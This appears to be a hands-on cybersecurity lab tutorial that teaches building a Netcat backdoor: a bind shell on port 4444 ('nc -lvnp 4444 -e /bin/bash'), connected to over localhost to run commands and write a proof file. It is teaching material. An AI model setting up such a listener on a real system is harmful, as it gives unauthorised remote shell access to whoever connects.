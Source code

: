 # Understanding Netcat

Netcat (or `nc`) is a command-line utility for reading from and writing to network connections using TCP or UDP. It is often called the "Swiss-army knife for TCP/IP" because of its versatility. In this lab, the setup script has already installed a version of Netcat that is suitable for our purpose.

First, let's verify that Netcat is installed and view its help menu. This will show us the available options.

Run the following command in your terminal:

```bash
nc -h
```

You should see a list of command options. The output will look similar to this (versions may vary):

```plaintext
[v1.10-41]
connect to somewhere:	nc [-options] hostname port[s] [ports] ...
listen for inbound:	nc -l -p port [-options] [hostname] [port]
options:
	-c shell commands	as `-e'; use /bin/sh to exec [dangerous!!]
	-e filename		program to exec after connect [dangerous!!]
	-b			allow broadcasts
...
```

Pay close attention to the `-e` and `-c` options. The output explicitly marks them as "dangerous". This is because they allow you to execute a program, such as a command shell, and connect it to a network port. This is the exact feature we will use to create our backdoor. Understanding why a tool's features are considered dangerous is a key part of learning cybersecurity.

# Creating the Backdoor Listener

In this step, you will configure one terminal to act as the "victim" machine. This machine will run a Netcat listener that waits for an incoming connection. When a connection is made, it will grant the person connecting a command shell, effectively creating a backdoor.

We will use port `4444` for this exercise. Ports are communication endpoints that allow different services on a machine to be accessed over a network.

In your current terminal, run the following command to start the listener:

```bash
nc -lvnp 4444 -e /bin/bash
```

Let's break down this command:

- `-l`: Puts Netcat in listen mode, waiting for incoming connections.
- `-v`: Enables verbose mode, providing more details about the connection.
- `-n`: Tells Netcat to use numeric IP addresses instead of resolving hostnames, which can be faster.
- `-p 4444`: Specifies the port to listen on, in this case, port `4444`.
- `-e /bin/bash`: This is the most critical part. It tells Netcat to execute the `/bin/bash` program (the Bash shell) and connect its input and output to the network socket as soon as a client connects.

After running the command, your terminal will display a message indicating that it is listening and will then appear to hang. This is normal. It is now waiting for a connection.

```plaintext
listening on [any] 4444 ...
```

Do not close this terminal. We will refer to this as the **victim terminal**. You will need to open a new terminal for the next step.

# Connecting to the Backdoor

Now you will play the role of the "attacker". You will open a new terminal and use Netcat to connect to the listener you started in the previous step. Since both the "victim" and "attacker" are on the same machine in this lab, you will connect to the localhost IP address, which is `127.0.0.1`.

First, open a new terminal. You can do this by right-clicking in the terminal area and selecting "New Tab" or using the shortcut `Ctrl+Shift+T`. We will refer to this new terminal as the **attacker terminal**.

In the new **attacker terminal**, run the following command to connect to the listener:

```bash
nc 127.0.0.1 4444
```

After you run this command, you will see a connection message in the **victim terminal**:

```plaintext
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33333
```

_(The port number `33333` will be a random high-numbered port)_

Your **attacker terminal** will now have a blinking cursor, but no prompt. This is because you are now inside the Bash shell that is running on the **victim terminal**. You have successfully established a remote shell. Any command you type here will be executed on the "victim" machine.

# Executing Remote Commands

You now have a remote shell. Let's test it by running some commands from the **attacker terminal**. These commands will be executed within the context of the **victim terminal**.

In the **attacker terminal**, type the following command and press Enter:

```bash
whoami
```

The output will be `labex`, which is the user account of the victim shell.

```plaintext
labex
```

Now, let's find out the current working directory of the remote shell:

```bash
pwd
```

The output will show the home directory of the `labex` user.

```plaintext
/home/labex/project
```

To prove that you have control, let's create a file on the "victim" system. Run this command in the **attacker terminal**:

```bash
echo "Backdoor was here" > /tmp/proof.txt
```

This command creates a file named `proof.txt` in the `/tmp` directory with some text inside it. You will not see any output.

Now, let's verify the file was created. In the **attacker terminal**, read the file's content:

```bash
cat /tmp/proof.txt
```

You should see the text you just wrote:

```plaintext
Backdoor was here
```

![Remote command execution successful](https://file.labex.io/namespace/df87b950-1f37-4316-bc07-6537a1f2c481/cybersecurity/lab-build-a-backdoor-in-netcat/en/screenshot-20250828-WuX8NKan@2x.png)

You have successfully executed commands remotely and modified the victim's filesystem. To end the session, you can press `Ctrl+C` in the **attacker terminal**. This will close the connection, and the Netcat listener process in the **victim terminal** will also terminate.